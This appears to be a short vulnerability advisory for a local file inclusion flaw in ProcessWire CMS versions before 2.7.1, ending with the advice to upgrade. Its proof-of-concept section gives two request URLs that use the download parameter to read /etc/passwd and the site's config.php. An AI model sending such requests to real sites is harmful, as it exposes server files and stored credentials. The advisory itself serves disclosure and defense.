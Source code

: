 # LFI-ProcessWire CMS


Local File Inclusion ProcessWire CMS < 2.7.1

Product: https://processwire.com/


Vendor: ProcessWire CMS


Tested version: 2.x < 2.7.1


** Description **


Local File Inclusion in Processwire CMS < 2.7.1 allows to retrieve arbitrary files via the download parameter to index.php
By providing a specially crafted path to the vulnerable parameter, a remote attacker can retrieve the contents of sensitive files on the local system.

** Proof of Concept **


http://<host>/index.php?download=/etc/passwd
  
http://<host>/index.php?download=../config.php

** Solution **

Upgrade ProcessWire CMS to version 2.7.1 or later.
--
Best Regards,
Y1LD1R1M
